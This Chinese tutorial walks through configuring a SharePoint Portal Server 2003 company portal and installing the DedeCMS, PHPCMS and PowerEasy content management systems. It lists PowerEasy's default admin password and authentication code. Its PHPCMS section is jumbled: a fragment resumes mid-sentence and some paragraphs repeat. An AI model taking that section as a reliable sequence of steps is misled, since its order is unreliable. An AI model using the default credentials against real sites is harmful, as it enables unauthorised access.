下面我们首先介绍对“主页”的设置，因为它的有些设置可以影响到新建区域，而“主题”、“新闻”、“网站”这些区域修改设置后只影响本区域及子区域的设置。

单击网站上部的“主页”链接，进入“主页”页面，然后在下面左侧的“动作”列表中单击“更改设置”链接，进入更改主页设置页面（见图18），在此页中可以更改当前页的标题、说明、联系人、发布信息、显示、搜索等一系列的信息。在“常规”选项卡中可以设置标题、说明、联系人，例如，如果想更改当前页的标题，只需在“标题”文本框中输入新的名称，然后单击页面底部的“确定”按钮即可。

在“发布”选项卡中设置当前页出现在门户网站上的“开始日期”、“到期日期”以及是否要经管理员批准。

在“显示”选项卡中设置列表的排序方式以及与此页关联的图形文件的地址，其中图像显示在此区域的详细信息中，而图标显示在指向此区域的连接旁边。如果你想添加图像或图标，只需将它们的地址输入到下面的文本框中即可，地址可以是本网站中的，也可以是互联网上的。

在“搜索”选项卡中设置搜索结果和主题助手。

在“页面”选项卡中设置“子区域模板”和“区域模板”，其中“子区域模板”的设置非常重要，它将影响到以后新建区域（栏目）的内容，选中“所有的子区域都将使用下列模板”选项，在下拉列表中可供选择的模板有“内容区域、主题区域、新闻区域、新闻主页区域、网站目录区域、社区区域”和“继承父类别的模板”，你可以根据自己的需要选择一种模板类型，然后单击“确定”按钮即可，以后新建的区域（栏目）就将采用你选择的模板类型创建。如果再想创建一个其他类型的栏目，可以重复以上操作，选择一种不同的模板类型，再创建新的栏目就行了。有了这个模板选项，就为用户创建不同类型栏目提供了极大的方便。我们下面将要创建一个“新闻中心”栏目，所以在这里选择“新闻区域模板”，然后单击确定按钮返回。

###### B. 向门户网站中添加新栏目

程序默认建立的网站只有“主页”、“主题”、“新闻”、“网站”四个栏目，与我们要建立的公司门户网站有很大的差距，我们要建立的门户网站包括“新闻中心、办公室、人力资源部、财务部、技术部、营销部”几个栏目，因此我们要首先删除不需要的栏目，然后再建立新的栏目。

###### 第一步：删除旧栏目

在“主页”中，单击左侧“动作”列表中的“管理门户网站”链接，打开“门户网站映射主页”页面（见图19）。将鼠标移到某个栏目上，在其右侧会出现一个下拉按钮，单击下拉按钮就可以完成对该栏目的操作。我们这里要删除“主题”、“新闻”、“网站”三个栏目。

单击“主题”右侧的下拉按钮，从弹出的菜单中选择“删除”命令，在弹出的对话框中单击“确定”按钮，将删除此栏目。删除完成后单击“确定”按钮返回，然后重复以上操作，将“新闻”、“网站”两个栏目删除。

###### 第二步：创建新栏目

还是在“门户网站映射：主页”页面中，单击左侧“动作”列表中的“创建区域”命令，进入“创建区域”页面（见图20），在“标题”文本框中输入“新闻中心”，在“说明”文本框中输入说明文字，如“介绍本公司的最新动态”。


在“开始日期”和“到期日期”中输入相应的日期，当指定结束日期后，当前栏目将不再出现在门户网站上，但可以从“搜索”中搜索到链接地址及内容，因此，如果你想让栏目永远显示在门户网站上，可以不设置“到期日期”。其他采用默认设置，然后单击“确定”按钮，“新闻中心”栏目就建立好了，而且它采用的是我们在上一节中选择的“新闻区域模板”，这样我们就可以直接在该栏目中添加新闻了。

重复以上操作，创建“办公室、人力资源部、财务部、技术部、营销部”等栏目，创建的栏目将即时出现在门户网站上（见图21）。注意，我们创建的“新闻中心”栏目采用的是“新闻区域模板”，如果你在创建其他栏目时，想使用其他模板，可以采用上一节介绍的方法，在“页面”选项卡中选择一种模板类型，然后再创建新栏目，新建的栏目就是你选择的模板类型了，用户可以根据不同栏目的需要选择不同的模板。


###### C．给每个栏目分配管理员

为了让公司中的每个用户都能访问门户网站，我们要对公司中的每一个用户分配权限，使他们对“管理站点”有“读者”的权限。

###### 第一步：

打开IE浏览器，在地址栏中输入“http://sps.askme.cn”，回车，在弹出的窗口中输入管理员用户名（Administrator）和密码，以管理员身份登录创建的门户网站，单击页面右上角的“网站设置”链接，进入“网站设置”页面（见图22），在“常规设置”项中单击“管理用户”链接。


###### 第二步：

在打开的“管理用户”页中，单击“添加用户”按钮，打开“添加用户”页面（见图23），在“用户”文本框中输入公司所有的用户或者想要分配管理权限的用户或用户组，如Users（非域用户）或Evergone（域用户名）用户组，代表所有用户，用户或用户组之间以分号分隔。在“网站用户组”中选中“读者”选项，然后单击“进一步”按钮。


###### 第三步：

在出现的页面中，确定是否向添加的用户发送电子邮件通知，如果服务器配置了SMTP服务器，就可以在“电子邮件地址”文本框中输入该用户电子邮件地址，然后选中“发送以下电子邮件以通知这些用户已被添加”选项，并在“正文”中输入内容，单击“完成”按钮，就可以把此通知发送到该用户的邮箱中。当然你也可以不给该用户发送电子邮件通知，那么就直接单击“完成”按钮，完成用户的添加，返回到“添加用户”页面，我们可以看到新用户已经添加到列表中了。以后就可以用该用户登录浏览网站了。

说明：对于新用户的添加，你需要首先在“计算机管理”中添加好相应的用户或用户组，然后才可以在“添加用户”页面中输入用户或用户组的名称。

系统用户或用户组的添加方法是：单击“开始→管理工具→计算机管理”，展开左侧的目录树，在“本地用户和组”中的“用户”和“组”中添加相应的用户和组即可。

通常的做法是将普通用户按各个部门分别建立一个组，如办公室、财务部、技术部等，将这些用户组全部添加进来，并赋予此用户组“读者”权限。将各个栏目的管理员分别建立一个组，如“新闻中心”栏目有2个管理员，建立一个新闻中心管理员组；办公室有3个管理员，建立一个办公室管理员组，其他栏目也是如此，然后给每个栏目管理员分配管理相应栏目的权限。

下面以“新闻中心”为例，给新闻中心管理员分配管理“新闻中心”页面的权限。

- 第一步：
单击“新闻中心”链接，然后在左边的“动作”列表中单击“管理安全性”链接，在出现的管理区域或安全性设置页面中单击“新建用户”按钮。

- 第二步：
弹出添加用户页面（见图24），在“用户和组”文本框中输入管理新闻中心栏目的管理员用户名或组名，在“选择权限”选项组中选择“查看、插入、编辑或删除列表，更改区域和列表设置”选项。然后单击“高级权限”链接，从“选择权限”选项组中取消选中“创建区域”和“管理区域”选项，最后单击“确定”按钮，返回管理区域安全性设置页面，可以看到新的用户已经被添加进来，以后就可以以该用户名登录管理“新闻中心”栏目了。


重复以上操作，可以为其他栏目如办公室、技术部、财务部等分配自己的管理员了。

###### D. 编辑各栏目的页面

程序默认建立的栏目页面往往不能完全满足我们的需要，因此，我们需要对它进行修改，SPS2003提供了一个非常个性化的页面修改方法，而且提供了很多的Web部件供用户选择，用户只需简单地拖拉鼠标就可以建立一个很有特色的页面。下面仍以修改“新闻中心”页面为例。

- 第一步：
在IE浏览器地址栏中输入“sps.askme.cn”，以我们前面建立的新闻中心管理员用户身份或者系统管理员身份（Administrator）登录门户网站。

- 第二步：
单击门户网站顶部的“新闻中心”链接，进入“新闻中心”页面，单击左侧“动作”列表中的“编辑页面”链接，进入编辑页面，然后在右上角单击“修改共享网页”链接，在弹出的快捷菜单中选择“添加 Web 部件→浏览”命令。

- 第三步：
打开“添加 Web 部件”页（见图25），在“Web 部件列表”中选择要添加到当前页的Web部件，单击“下一页”可以浏览更多的部件，然后在下部的“添加列”列表中选择部件要添加到页面中的区域，共有4个区域：顶部、底部、左中部、右中部，这比WSS网站添加的区域要多，WSS网站只能添加到左部和右部。最后单击“添加”按钮，就可以将选中的Web部件添加到指定的页面区域。当然你也可以直接用鼠标拖动Web部件到指定的页面区域。由于Web部件较多，你可以根据需要进行添加，也可以为不同的栏目设置不同的风格。


- 第四步：
我们还可以根据需要修改每个Web部件的参数，方法是在右上角单击“修改共享网页→修改共享 Web 部件”，然后从弹出的快捷菜单中选择当前页的Web部件，就可以打开相应的部件修改页面，不同的部件参数设置内容也不同，修改完毕，单击“确定”按钮即可。

##### （4）网站的内容管理

SPS网站做到了集管理与使用于一体，在使用的过程中可以同时进行网站的管理，如添加新闻、上传文档、更改页面设置等。按照前面的介绍设置好每个栏目的权限后，用户在登录门户网站后，就可以在相应的（与其权限对应）页面中拥有指定的权限，从而对管理员指定的页面进行管理。

下面以管理“新闻中心”栏目为例进行介绍，其他栏目的管理与此类似。

关闭所有的IE浏览器窗口，再次打开IE，在地址栏中输入“sps.askme.cn”，在弹出的登录对话框中输入管理“新闻中心”栏目的管理员的用户名及密码，然后单击“确定”按钮，进入门户网站。

因为当前登记的用户只对“新闻中心”栏目有管理权限，所以在“主页”中看到没有“动作”列表选项，在“主页”的右上角也没有“网站设置”按钮。如果打开“新闻中心”以外的其他栏目，效果也和“主页”一样，没有“动作”列表。当你打开“新闻中心”栏目后，可以看到出现了“动作”列表，但“动作”列表中包含的内容与使用管理员（Administrator）账户打开的却不相同（因为权限不同），它仅有“添加新闻、上载文档、管理内容、编辑页面”四项内容，而管理员账户却有十项内容之多。下面就可以向“新闻中心”栏目中添加内容了。

###### A. 向网站中添加新闻

- 第一步：
单击“新闻中心”链接，在左侧的“动作”列表中单击“添加新闻”链接，打开“添加新闻”页（见图26），在“标题”文本框中输入新闻的标题，在“说明”文本框中输入对当前新闻的简要叙述。在“内容”项目中，如果添加的新闻来自于另一个现有的网页，则可以选择“链接到现有内容”选项，并在“地址”文本框中输入完整的新闻链接地址。如果想直接添加新闻，则选择“通过输入文本添加新闻列表”选项，并单击“打开文本编辑器”按钮。


###### 第二步：

打开文本编辑器，就像我们常用的Word编辑器一样，可以直接输入文本，改变文字的字体、大小、颜色、样式、排列等属性，也可以直接用“粘贴”的方式，从其他文档中复制。如果在新闻中添加图像，则单击编辑器上部的“插入图像”按钮，打开“图片”对话框，在“图片来源”文本框中输入图片的URL地址，也就是保存网站图像或文档库中的图片，然后单击OK按钮返回，就可以把图像添加到文档中。全部编辑完毕，单击“确定”按钮返回“添加新闻”页面。

###### 第三步：

在“到期日期”文本框中输入这条新闻不再出现在栏目中的截止时间（到期不再显示，但可以从“搜索”中查找到），如果要永久显示这条新闻，则保持“到期日期”文本框为空。在“图像”文本框中，可以设置当前所发布新闻的图标，在这里输入保存此图标的URL地址（也可以为空，此时新闻没有图像），然后单击“确定”按钮，一条新闻就添加到“新闻中心”栏目中了。重复以上操作，可以继续添加其他的新闻。

这里要说明的是，无论是在文本编辑器，还是在“添加新闻”页中添加的图像，输入的URL图像地址可以是另外一个网站的图片链接（互联网上的），也可以使用本门户网站保存的图片，关于将图片上传到门户网站及获取图片地址的方法参见下面的“添加图片”节的介绍。

###### B. 向网站上传文档

用户可以把自己编辑的各种文档上传到门户网站中，保存到网站的文档库中，以便作为资料随时查找和与他人共享。上传文档的操作如下：

在“新闻中心”页中，单击左侧“动作”列表中的“上载文档”链接，打开上载文档页面，单击“浏览”按钮选择将要上传的文档，文件选择完成后，在“说明”文本框中添加文档说明，在“状态”下拉列表框中选择文档的状态（初稿、草稿、正在审阅中、最终），并选择是否将此文档添加到列表，然后单击页面上方的“保存并关闭”按钮，出现“添加列表”页面，在“标题”文本框中可以更改默认的标题，在“说明”文本框中输入本次上传文档的介绍，在“图像”文本框中可以输入图片的URL地址（也可以保持为空，为空则没有图像显示），最后单击“确定”按钮，返回“新闻中心”主页，我们可以看到新添加的文档，这样就完成了文档的上传。

###### C. 向网站中添加图片

用户可以将图片保存在公司的服务器中，以便与其他用户共享。在SharePoint Portal Server 2003中提供了一个图像库，用来帮助用户在公司服务器中共享和组织图片。

使用图像库有以下优点：可使用三个独特的显示样式之一查看图片；使用幻灯片放映或通过向Office 2003程序直接发送图片来共享图片；使用与Windows SharePoint Services兼容的图像编辑器（如Microsoft Office Picture Manager）来编辑图片。下面我们就来了解建立图像库的方法。

- 第一步：在“新闻中心”页面中，单击左侧“动作”列表中的“管理内容”链接。
- 第二步：在打开的“文档和列表”页中，单击“图像库”链接，打开“图像库”页。
- 第三步：单击“添加图片”按钮，在打开的添加图片页中，单击“浏览”按钮选择将要上传的图片。
- 第四步：选中图片后，单击“保存并关闭”按钮，返回“图像库”完成图片的上传。
- 第五步：在“图像库”页中利用其顶部的工具按钮，还可以建立新的文件夹，编辑、删除、发送图片，这些操作都比较简单。

最后需要说明的是，如果想将图像库中的图片用于新闻或其他文档，则必须知道该图片的地址，获取图片地址的方法，是在图片上单击鼠标右键，从弹出的快捷菜单中选择“属性”命令，打开“属性”对话框，将“地址（URL）”中的地址信息复制（见图27），然后在添加新闻或其他文档的过程中将此地址粘贴到相应的图像文本框中即可。


在“管理内容”页中除了添加文档和图片外，还可以完成创建“列表”、“讨论板”、“调查”等操作。可以说，灵活使用“管理内容”页中的各种功能，可以让公司的网站内容变得更加丰富多彩。对于公司日常工作中常用的操作，如：创建链接、通知列表、联系人列表、事件列表、任务列表、问题列表等，你都可以自由创建。这些功能的操作都大同小异，利用SharePoint Portal Server 2003向导式的操作，用户可以很快地掌握它的使用方法，限于篇幅，这里就不一一详细介绍了。

###### D. 管理所有栏目

每个栏目的所有者或管理用户，都可以参考前面介绍的方法和步骤，添加本栏目的新闻、文档（如知识文档、规章制度等），也可以再在栏目下划分多个子栏目（这需要给栏目管理员添加“创建区域的权限”）。

使用SharePoint Portal Server创建的门户网站是“即时更新”的，只要栏目的管理员添加了内容或更改了页面，其内容和设置将会立刻生效，这比传统的网站更新（编辑内容→领导审批→发给管理员→管理员上传）快了很多，其效率也大大提高。

对于SharePoint创建的门户网站来说，其使用与管理是一个长期的过程，在使用中添加内容、管理页面。使用的时间越长，网站的效果越好，内容越丰富。

##### （5）网站备份和恢复

在SharePoint Portal Server 2003管理工具中，提供了网站的备份与恢复工具。使用SharePoint Portal Server 2003创建的网站，需要及时地备份。否则，由于管理员误操作，有可能删除某个栏目或整个站点。

###### A. 备份网站

- 第一步：
单击“开始→所有程序→SharePoint Portal Server→SharePoint Portal Server数据备份和恢复”命令，打开数据备份和恢复工具窗口（见图28）。


- 第二步：
选择“备份”选项卡，在“备份位置和名称”文本框中输入备份的路径及备份的名称，也可以单击“浏览”按钮在打开的对话框中选择路径并在“文件名”中输入名称，单击“打开”按钮完成选择。在“备份注释”文本框中输入对备份文档的说明。

- 第三步：
在左下侧的“可用组件”列表中展开目录树，在右边的窗口中选择要备份的项目。

- 第四步：
单击“备份”按钮开始备份，备份结束后单击“确定”按钮结束。

###### B. 恢复网站

当站点遭受破坏或者需要将站点从一台计算机转移到另一台计算机上时，就可以使用创建的备份进行恢复操作。

在SharePoint Portal Server数据备份和恢复工具窗口中，选择“恢复”选项卡，单击“浏览”按钮，选择备份文件，然后在左下侧的“可用组件”列表中选择要恢复的组件，在右边的窗口中选择要恢复的项目，最后单击“恢复”按钮即可。

## 流行网站应用实例

CMS（Content Management System，内容管理系统）是近两年才出来的新名词，其实就是一个软件，它的作用是对网站的文章、软件、图片等进行管理，它是可以将用户浏览界面和管理员后台管理界面划分开来的一套管理系统。

目前，国内流行的CMS系统很多，如用PHP语言编写的DedeCMS、PHPCMS、ECMS等；还有用ASP语言编写的动易系统、风讯系统、科汛系统等；以及用ASP.Net编写的动网新闻系统等。要选择一款合适的CMS系统，关键在于网站的架设平台，如使用Windows操作系统的服务器，可以使用PHP、ASP和ASP.Net编写的网站内容管理系统，而使用Unix或Linux操作系统的服务器，则只能选择PHP语言编写的网站内容管理系统了。

用PHP、ASP和ASP.Net这三种语言编写的网站内容管理系统各有优劣：PHP编写的CMS系统运行速度较快，ASP语言编写的CMS系统多是开源，而ASP.Net语言编写的CMS系统则以安全著称。

### 一、PHP内容管理系统

用PHP语言编写的CMS系统是许多站长的首选，因为它高效、安全。实验证明，它在文章采集和生成速度方面都要比ASP语言编写的CMS系统快得多。目前流行的PHP网站内容管理系统有DedeCMS、PHPCMS、ECMS、CMSWare等。DedeCMS是国内的一款开源CMS系统，使用者多是一些职业站长，均有一定的技术基础；PHPCMS在界面和操作性能上较为出色，非常容易上手；ECMS也称为帝国CMS，是一款口碑不错的CMS，不过免费版在功能上有一定限制；至于CMSWare，笔者不知道有多少人在使用这款CMS系统，但以笔者的试用体验和周边一些人的评价来看，似乎都认为它在功能和界面的设计上不够人性化。例如 CMSWare 中的采集功能，三个从未接触过 CMSWare 的人使用该功能，有两个人都需要花上三天的时间才能上手，可见其易用性之差。毕竟一款 CMS 系统是方便人使用，而不是让人花时间去研究技术的。
不过，CMSWare 在功能上还是一应俱全的，仅仅在易用性方面有些欠缺。对于以上谈到的几款用 PHP 语言编写的网站内容管理系统，限于篇幅，下面就仅介绍 DedeCMS 和 PHPCMS 这两款 CMS 系统的建站方法。

#### 1. DedeCMS

DedeCMS（织梦内容管理系统）是国内的一款开源 CMS 系统（如图 1）。第一次使用 DedeCMS 系统时，可能会被标记、模板代码之类的术语搞得头昏，稍微会有一些困难。DedeCMS 系统以简单、实用、开源而闻名，提供了频道管理、文档维护、内容发布、HTML 更新、专题管理、采集管理、附助插件、会员管理以及系统管理等多个功能模块，使用 PHP 的程序首先需要架设相应的服务器。PHP 服务器的组件，大部分都是使用 Apache 软件来实现的，除此之外，也可以使用 IIS 组件来配置 PHP 环境（详细配置操作可参见 2006 合订本上半年的附录分册第 104 页）。


#### （1）DedeCMS 的安装

在浏览器中输入 http://localhost/setup/index.php，运行 DedeCMS 安装程序。这里需要设置的选项包括数据库所在服务器的 IP 地址、数据库名称、数据库用户名、数据库密码、管理员用户名和密码等。在“CMS 安装目录”中还需设置站点的路径，例如站点在虚拟目录下，就需要在“CMS 安装目录”文本框中设置虚拟目录名。另外，在界面中也列出了 Linux 或 Unix 平台下程序各目录所需要设置的权限，而 Windows 平台就不用对目录权限进行设置了。

##### （2）栏目添加和管理

在左侧的面板中选择“频道管理→网站栏目管理”，接着在右侧出现的界面中点击“增加顶级栏目”按钮，在该界面中可对新建栏目的参数进行设置。
其中“栏目名称”是设置栏目在前台显示的中文名称；“文件保存目录”是设置该栏目下静态页面文件的保存位置，只需要设置一个目录名称即可，如设置的文件保存目录为“news”，那么该目录的位置就在站点根目录的“/html/news”目录下；在“栏目属性”中有传统的列表形式、使用封面模板和使用单独页面作为栏目三个单选框，其中“使用封面模板”选项中所指的封面模板是指频道里所有栏目的汇总页面，类似首页模板；剩下的其他选项可选默认设置，点击“提交”按钮，一个栏目就创建好了。

创建了一级栏目后，还需要创建二级或三级栏目。在 DedeCMS 系统中创建二级或三级栏目是使用右键菜单功能来实现的。例如要在一个“软件资讯”的顶级栏目下创建一个二级栏目，可在该栏目名称上右击鼠标，在弹出菜单中选择“增加子类”，之后转入后的界面与创建顶级栏目时是相同的。

##### （3）模板与模板引擎代码

这是 CMS 应用的核心所在，其中模板就是网站的框架、界面，而模板引擎代码则是插入模板中的一些特殊代码，这些代码的作用是调用指定的新闻内容。
模板制作是用 Dreamweaver 来完成的，在此不作详述。而模板引擎代码的使用在后台左侧面板列表的“系统帮助→模板代码参考”下也有详细的帮助信息。

##### （4）文章的更新和发布

网站模板和栏目都设置好后，接下来就可以向各个栏目添加文章了，在左侧面板列表中选择“内容发布→发布普通文章”进入文章发布页面。文章发布功能的使用非常简单，在添加文章时若需要插入分页文章，可在分页的位置输入“#p#”标题或者直接点击“page break”图形按钮。
添加一篇文章后，系统会自动生成相应的静态页面文件。如果在网站制作后期需要对以前的文章进行再次更新，可在左侧面板中选择“HTML 更新”，在该面板选项下提供了“更新主页 HTML”、“更新栏目 HTML”、“更新文档 HTML”等选项。

#### 2. PHPCMS

PHPCMS（PHP Content Manage System）是一款基于 PHP+MYSQL 的网站管理系统软件，目前以新闻文章管理系统为主，同时有公告管理、友情链接管理、数据库管理、语言管理、风格模板管理、用户管理、JS 文件管理等小的辅助功能模块。PHPCMS 系统集多功能于一体，让用户实现在线可视化管理网站，比较适合用来建立资讯类网站。

#### （1）PHPCMS 的安装

在浏览器中输入 http://localhost/install.php，打开 PHPCMS 的安装程序，进入安装界面后系统会对服务器平台的环境进行检测，通过检测结果我们能知道当前服务器上已经安装了哪些 PHPCMS 所需的项目，若检测结果显示未安装的项目对正常使用 PHPCMS 有影响，则需要退出 PHPCMS 安装程序，将这些项目一一安装后再进行 PHPCMS 系统的安装。
点击“下一步”按钮进入“目录或文件可写检查”界面，这个界面中是对程序相关目录的权限进行设置，因为程序在使用时需要对某些目录有读写权限，比如 HTML 目录，该目录是静态网页生成目录，若没有为该目录分配读写权限，则需要作相应的权限设置。
然后点击“下一步”按钮进入“程序初始化设置”界面（如图 2），此处是在数据库服务器中创建一个新的数据库，用来存放 PHPCMS 的相关数据表。
通常网站程序和数据库都存放在一台服务器上，所以在“数据库服务器”文本框中使用其默认值“localhost”即可。

选项，“内部栏目”中的设置是用于生成栏目静态页面文件存放的目录，由英文字母和数字组成；而“外部栏目”则是指链接到本系统以外的地址。

“基本信息”选项卡中的“栏目关键词”和“栏目描述”项主要是针对搜索引擎设置的，在设置好这两个选项后，将其调入到模板源文件的Keywords和Description代码中可对搜索引擎起到优化作用，便于网站关键字的排名。

##### （4）模板与标签管理

点击界面上方的“文章”链接字样进入“文章管理”面板，在左侧的面板列表中选择“高级管理→模板管理”，在转入的界面中列出了所有模板文件列表，如栏目首页、栏目列表页、内容页模板等等。点击相应模板名称后的“修改”按钮可以代码的形式对模板页面进行修改，而且在修改界面中还可看到该模板文件在服务器的具体路径。如果对HTML代码不太熟悉，建议在修改模板时使用Dreamweaver进行编辑。

模板制作好后，接下来就是标签的创建了。选择左侧面板列表中的“高级管理→标签调用管理”，跳转到文章列表调用标签管理界面，在该界面中点击“添加文章列表调用标签”可新建一个文章列表标签。

在建立一个标签时，首先需要设置标签配置名称和配置说明（必填），接着可对栏目ID、文章标题字数、内容摘要字数、文章排序方式、文章列表的列数、是否显示时间等选项进行自定义设置。在完成这一系列设置后，可点击最下方的“预览”按钮查看当前标签的显示效果。有了这个“预览”功能，在设计标签时会方便不少，一些CMS系统中没有提供这个功能，要想查看标签的效果就只能辗转于多个界面之间，操作相对比较繁琐。


可。而“数据库账号”和“数据库密码”是在安装MySQL数据库时所设置的管理员用户名和密码，只有获得了管理员权限才能在MySQL中创建一个PHPCMS的数据库。在该界面中对数据库的相关选项进行设置后，还可点击“数据库配置测试”按钮来检测配置的正确性。

再次点击“下一步”按钮，对管理员账号和密码进行设置，这是PHPCMS安装的最后一步。在该界面中设置PHPCMS后台管理的用户名和密码，安装完成后程序会自动跳转到后台登录界面。

##### （2）PHPCMS的基本配置

PHPCMS安装好后，首先需要对网站的一些基本配置进行设置，如基本信息、网站设置、搜索设置、图片处理、论坛整合等等，在此着重讲一下PHPCMS的论坛整合功能。

在PHPCMS中提供了Discuz和PHPWIND的整合功能。通过这个功能整合网站和论坛的数据库，可以更加方便地对网站用户和论坛用户进行管理。首先点击界面上方的“文章”文字链接，在转入界面中依次选择“高级管理→外部数据导入”功能，将Discuz的数据导入到PHPCMS中，接着在“基本配置”的“论坛整合”选项卡中设置论坛接口地址和认证密钥（此处的认证密钥是用户自定义的，填写的密钥建议在10位以上，可以是数字、字母与符号的组合），最后再进入Discuz后台将自定义的认证密钥设置到“通行证私有密钥”中即可。详细的整合步骤可参见http://www.phpcms.cn/data/2005/1217/article_200.htm。

##### （3）创建网站栏目

点击界面上方的“文章”链接字样进入“文章管理”面板，选择左侧面板列表中的“栏目管理→添加栏目”，跳转到栏目基本信息设置界面。在“基本信息”选项卡中（如图3），需要对“栏目名称”和“栏目类型”两个选项进行设置，其中“栏目名称”是在前台显示的栏目中文名称。在“栏目类型”中提供了“内部栏目”和“外部栏目”子选项，具体区别如下：

| 栏目类型 | 说明 |
| :--- | :--- |
| 内部栏目 | 设置是用于生成栏目静态页面文件存放的目录，由英文字母和数字组成。 |
| 外部栏目 | 指链接到本系统以外的地址。 |

“基本信息”选项卡中的“栏目关键词”和“栏目描述”项主要是针对搜索引擎设置的，在设置好这两个选项后，将其调入到模板源文件的Keywords和Description代码中可对搜索引擎起到优化作用，便于网站关键字的排名。


##### （5）PHPCMS的附属功能

PHPCMS的附属功能分散在“系统设置”和“文章管理”这两个面板中，包括字符替换、外部数据导入、统计报表、单网页管理、投票管理、评论管理、Google地图、IP管理等等。这些功能让PHPCMS系统更加完善，而且每一个功能都非常实用，特别值得一提的是Google地图生成功能。

PHPCMS中提供了Google地图生成功能，通过这个功能可以生成一个名为sitemap.xml的地图文件，它可以起到什么作用呢？我们知道，Google会不定时地造访一个网站，检查该网站是否有新的文章，并对网站的文章进行收录。由于Google对网站网页的收录是不定时的，但我们却可以定时将自己网站更新列表提交到Google，便于搜索引擎的收录，Google地图功能所生成的文件就是这样一个更新列表文件。

在系统设置面板列表下选择“Google地图”，设置好生成文章的条数和时间范围，然后点击“生成Google地图”按钮即可。将这个地图文件提交到Google后，可以让Google在最快时间得到网站的信息及更新时间。

### 二、ASP内容管理系统

PHP内容管理系统是许多站长和企业使用较多的一类CMS，因为它有着安全、高效的特性。相对而言，ASP内容管理系统在安全和执行效率上都大打折扣，尤其是Access版本的ASP内容管理系统，更有一定的局限性。但ASP内容管理系统平台架设相对简单，只需要安装一个IIS即可使用，不像PHP内容管理系统需要安装Apache + MySQL + ZendOptimizer等等。最重要的一点是ASP的内容管理系统大多都是开源的。

#### 1. 动易CMS系统

短短三年时间，动易内容管理系统使用者就达到了15万。作为一款商业软件产品，动易系统在代码优化、运行效率、负载能力、安全等级、功能可操控性和权限严密性等方面，都有较好口碑。

动易内容管理系统提供了文章中心、下载中心、商城、留言板等多个大型的功能模板，每个功能模板中都提供了丰富的管理功能，说它功能强大，一点儿也不为过。这是一个庞大的内容管理系统，但同时也是一个简单、易用的内容管理系统，其界面和功能的分布非常合理，并没有因为功能强大扰乱了界面的布局。

##### （1）安装动易内容管理系统

动易内容管理系统是需要组件支持的，在使用前需要在服务器上安装动易自带的组件。执行动易解压包里的PE2006_DLL.exe文件，依照提示进行安装即可；接着执行PowerEasy2006.exe文件，进行动易内容管理系统的安装，将安装路径指向服务器的站点根目录下。

##### （2）网站信息配置

在服务器的浏览器中输入http://localhost/admin/admin_login.asp，打开动易系统的后台登录界面（如图4）。


系统默认的管理用户名为admin，用户密码为admin888。在登录界面中还有一个“管理认证码”文本框，系统的初始认证码为PowerEasy2006（输入时需区分大小写），这个认证码可在admin/Admin_ChkCode.asp文件中进行自定义。有了这一功能，其他用户即使通过黑客手段获取了管理员的用户名和密码，没有认证码也不能成功进入后台。

进入后台后，在主界面中点击“网站信息配置”红色字样链接，进入网站信息配置界面，此处有网站信息、网站选项、缩略图选项、搜索选项、商城选项等选项卡。首先在“网站信息”选项卡中对网站的基本信息进行设置，其中“安装目录”是指系统在服务器上的安装路径，如果是安装在站点根目录下，那么就使用系统的默认值；若是安装在虚拟目录下，则需要设置虚拟路径，通常系统会自动获取站点所在的服务器路径，但需要手动进行保存。

选择“缩略图选项”选项卡可对缩略图、水印文字进行设置。要使用缩略图功能，必须在服务器上安装一个缩略图组件，如AspJpeg（下载地址：http://www.mydown.com/soft/209/209949.html，大小1.3MB）。当系统检测到服务器已经安装了缩略图组件，会在“生成缩略图组件”下拉列表中显示一个“√”的图形。

动易系统还提供了RSS功能。在网站中加入RSS功能，用户可以通过RSS阅读器方便地订阅网站中的内容。选择“RSS设置”选项卡后，在该选项卡中设置RSS的开关。

另外，在网站信息配置中还有一个“Wap设置”选项卡，Wap是指手机访问。只要开启了系统的Wap功能，用户就能通过手机直接访问网站了。

由于在网站信息配置中提供了多个选项卡，每个选项卡下又有大量的设置项，因此在进行网站信息配置时需仔细检查一些系统功能的开关项，以防止因开关项的设置不当而导致系统中某些功能不能使用。

##### （3）栏目管理

在界面左侧的面板列表中展开“文章中心管理”选项，在该选项下集成了栏目管理、文章管理、文章JS文件管理、文章模板页管理等功能。首先要在这里创建网站的相关栏目。

在“文章中心管理”选项下点击“栏目管理”，进入栏目管理界面。接着点击“添加文章栏目”添加一个网站栏目，在转入界面的“基本信息”选项卡中主要设置栏目的名称、栏目目录名等信息，选择“栏目选项”选项卡可对该栏目的一些属性功能进行设置，如栏目页面的打开方式、防盗链功能、栏目文章列表的数量、栏目所用的模板等。

在“权限设置”选项卡中结合了系统的会员管理功能，网站设计者可以对网站的不同用户开设不同的访问权限，此功能非常的实用。

##### （4）模板与标签管理

选择左侧面板列表中“系统设置→网站通用模板页管理”，在新界面中列出了网站首页模板、厂商显示页模板、品牌显示页模板、专题页模板等二十多个模板，不同的模板下都有多个模板样式可供选择。用户也可以自己制作模板，然后导入到系统中。

“标签管理”似乎已经成为一个内容管理系统的核心功能。动易系统开发了Dreamweaver标签插件，用户可以在制作模板页面时，直接在Dreamweaver中将所需的标签插入到模板中。使用Dreamweaver标签前需要先进行安装。

在“Dreamweaver标签插件”文件夹中有PE_2006_DW8.mxp、PE_2006_DW2004MX.mxp和PE_2006_DWMX.mxp三个插件文件，针对不同的Dreamweaver版本可以选择相应的插件版本。以Dreamweaver 8为例，双击PE_2006_DW8.mxp文件，系统会打开“Macromedia 扩展管理器”窗口（如图5），然后按提示进行安装。安装完成后启动Dreamweaver，在“插入→动易标签(PowerEasy)”菜单中就能看到所有动易标签了。同时，点击“常用”菜单，选择“PowerEasy2006”可打开动易标签的工具栏。有了这个标签插件，在制作网站模板时会方便许多。


##### （5）文章发布与HTML生成

动易系统的文章发布功能还算中规中矩，虽没什么出色之处，但日常所需的功能都具备了。在使用方面，只要使用过Word的用户，基本都能轻易上手，因此重点说一下“HTML生成”功能。

不同的网站设计者，对“HTML生成”功能会有不同的需求。动易系统提供了一个开关来管理“HTML生成”功能。在左侧的面板列表中，选择“系统设置→网站频道管理”转入相应界面，在“文章中心”后点击“修改”按钮，接着选择“生成选项”选项卡，在该选项卡中提供了生成HTML方式、栏目、专题列表更新页数、自动生成HTML时的生成方式、目录结构方式、内容页文件命名方式、生成页面扩展名等功能选项。要使用动易系统的“HTML生成”功能，首先要在“生成HTML方式”中选择“全部生成”或“其他生成方式”，系统默认选择的是“不生成”。

开启了系统的“HTML生成”功能后，在左侧面板列表的“文章中心管理”选项下，点击“文章管理”后的“生成”链接字样，在转入的界面中可随意生成相应的文章。

